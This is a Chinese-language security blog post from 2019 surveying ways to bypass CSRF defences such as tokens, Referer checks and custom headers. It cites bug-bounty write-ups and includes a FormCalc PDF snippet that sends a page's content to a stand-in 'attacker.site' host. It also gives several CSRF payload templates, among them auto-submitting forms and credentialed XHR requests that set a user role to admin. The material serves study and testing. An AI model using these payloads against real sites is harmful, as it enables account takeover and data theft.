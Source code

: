 ```yaml
---
layout: post
title:  CSRF Bypass!
date: 2019-1-8 22:02:24.000000000 +08:00
---
```

我的twitter @C1h2e11每天固定转载优质文章和思路，欢迎关注！
#	 起因
我最近在研究国外的各种新思路，最近看到了一篇CSRF的相关文章，只是写了各种Poc，我在写之前查找了大量的案例，这也就是为什么说技术分享的受益最大永远都是分享者，在这些案例里面我发现大多都是没有CSRF token或者其他防护机制的，同样的我查找了很多文章关于CSRF攻击，也并没有找到我想要的，于是就有了今天的文章


# CSRF Protection?
我们在漏洞挖掘过程中不难看出，很多时候我们会遇到各种CSRF的防护机制，随便一个网站都有token或者其他的防护机制。下面我们需要了解一下常见的防护方法
-	CSRF token
-	Referer Based Protection
-	XRSF Header
-	verify code
-	Seesions timeout
-	Double Password
....



# Bypass
我尽力寻找了各种案例和bypass思路，文后会有我看过的文章链接
---
删！
这个思路再很多时候都适用，面对`Referer` `XRSF Header` `token`都可以对其进行删除
这里我们用一个案例来说明
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`
写文的日子是`2019-1-8`这个write up是前天的漏洞，删除了`XRSF Header`
---
改！
这个思路我是在medium上看见的
`https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276`
修改了请求方式GET改成了POST 同样的漏洞挖也挖到过一次，我先修改了请求方式，并把POST的参数通过GET传入，但是也成功完成了CSRF攻击
如果你观察的仔细的话你可以看出
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`这个案例删除了`XRSF Header`但是没有成功还是需要修改POST为GET
---
盗token！
尝试从其他渠道获得CSRF token
`http://www.anquan.us/static/bugs/wooyun-2015-090935.html`
利用了Referer泄露获取CSRF token 再利用CSRF token进行CSRF攻击
---
Use Bad PDF 
`get() and post() methods of FormCalc allow to ex-filtrate CSRF-token`
这是我在twitter找到的一个文档上的原文
其实就是我们的PDF被浏览器解析，因为插件的原因可以进行请求，我们上传恶意的PDF文件在目标网站这样可以绕过referer甚至CSRF token ，这个漏洞和去年(2018)阿里的Chrome支持的PDF跳转是类似的。
我们只需要制作恶意的PDF文件，在里面插入我们的恶意代码
```html
<script contentType='application/x-formcalc'>
var content = GET("https://example.com/Settings.action"); Post("http://attacker.site/loot",content,"text/plain");
</script>
```
没错Poc是抄的，原地址
`https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf`
这是一个CSRF bypass的PPT本文的一些思路也取自这里

---
改Cookie！
有些时候我们会遇到哪种可以修改cookie的漏洞
比如`CLRF`等，我们可以利用这些漏洞打组合拳进行CSRF攻击
---
组合拳！
XSS+CSRF
可以利用XSS漏洞进行直接的请求饶过Referer限制
也可以利用XSS盗取CSRF token 从而进行CSRF漏洞利用
---

# 浓缩
我在寻找更多bypass手段的时候我找到了这个调查
![CSRF]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF1.png"|CSRF}})

![CSRF]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF2.png"|CSRF}})

那么我们真正在实战中用到比较多的就是

-	删除CSRF token
-	置空token参数
-	修改请求方法
-	与token相同长度的任意字符串替换token
-	固定token
我相信看到这里各位已经心领神会了

---





# 关于提交方式
```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```
```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```
```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST"&>
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

#	参考链接
```
https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276
https://medium.com/@iaincollins/csrf-tokens-via-ajax-a885c7305d4a
https://medium.com/@arbazhussain/stealing-access-token-of-one-drive-integration-by-chaining-csrf-vulnerability-779f999624a7
https://medium.com/bugbountywriteup/content-negotiation-with-csrf-969e639d6a1a
https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef
https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf
Check out @detectify’s Tweet: https://twitter.com/detectify/status/1081520785322332166?s=09
http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/
https://github.com/TheRook/CSRF-Request-Builder
```

#	反思
沉淀!

